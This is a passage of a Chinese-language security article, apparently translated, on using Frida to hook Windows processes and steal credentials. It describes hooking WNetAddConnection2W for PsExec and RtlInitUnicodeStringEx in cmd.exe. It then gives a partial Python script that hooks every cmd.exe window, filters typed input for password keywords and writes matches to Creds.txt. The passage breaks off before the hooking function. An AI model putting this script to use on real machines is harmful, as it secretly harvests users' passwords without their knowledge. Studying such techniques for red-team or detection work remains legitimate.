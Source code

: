 ![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoAibmAMWshROcCNAT6XtEl2QqgdhXpjdQibbUY7SxWVbgwc7mSWqhiaYzg/640?wx_fmt=png)

WNetAddConnection2W 是存放我们的凭证信息的函数。如果我们尝试捕获这些信息，通常会遇到一个问题：Frida 没有足够的时间附加到 PsExec.exe 进程，因为我们把密码作为一个参数提供：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoOstYTfozibjrwyVuNernHHKy8YTMEjUWr7WeDSIJRM95SRdk4X6PuWw/640?wx_fmt=png)

由于脚本的速度不够快，致使无法捕捉到凭证，因此，我们需要另寻他法。面对这种情况，我想，如果我们把在命令提示符里面输入的所有内容都 hook 住，结果会怎么样呢？让我们试试看。这一次我将尝试监视命令提示符，并查找我们的凭证信息：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoiaGZEpHXekr72nWrbOpIMxicEX5xEnJJCmLS78FAs7OlkOKNeqBrBFLg/640?wx_fmt=png)

我们可以看到下面有一个新的线程，搜索由 Ntdll.dll 中的 RtlInitUnicodeStringEx 函数生成的密码。不幸的是，像大多数 Ntdll 库一样，Microsoft 并没有提供相应的说明文档。但是我们可以看到函数接受的参数。其中，第二个参数 SourceString 看起来很有趣，因为它包含整个命令，我们还可以看到该函数被多次使用，基本上每次用户向命令提示符输入时都会调用它，因此，我们都需要构建一个过滤机制来过滤不需要的垃圾数据。

最终的脚本如下所示：

```
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread
import sys

# Locking the cmd thread to prevent other threads

#interfering with our current session
lockCmd = Lock()

def on_message_cmd(message, data):
  # Executes when the user enters the right keyword from the array above.
  # Then, open the txt file and append it

  #filter the wanted args
  arr = ["-p", "pass", "password"]
  if any(name for name in arr if name in message['payload']):
    print(message['payload'])
    with open("Creds.txt", "a") as f:
      f.write(message['payload'] + '\n')
    try:
      lockCmd.release()
      print("[+] released")
    except Exception:
      pass


def WaitForCmd():
  numOfCmd = []
  while True:
    #  Trying to find if cmd is running if so, execute the "CMD" function.
    if ("cmd.exe" in (p.name() for p in psutil.process_iter())):
      process = filter(lambda p: p.name() == "cmd.exe", psutil.process_iter())
      for i in process:
        # if we alredy hooked the cmd window,pass
        if (i.pid not in numOfCmd):
          #IF a new cmd window pops add it to the array, we want to hook
          #evey cmd window
          numOfCmd.append(i.pid)
          lockCmd.acquire()
          print("[+] Found cmd")
          Cmd(i.pid)
```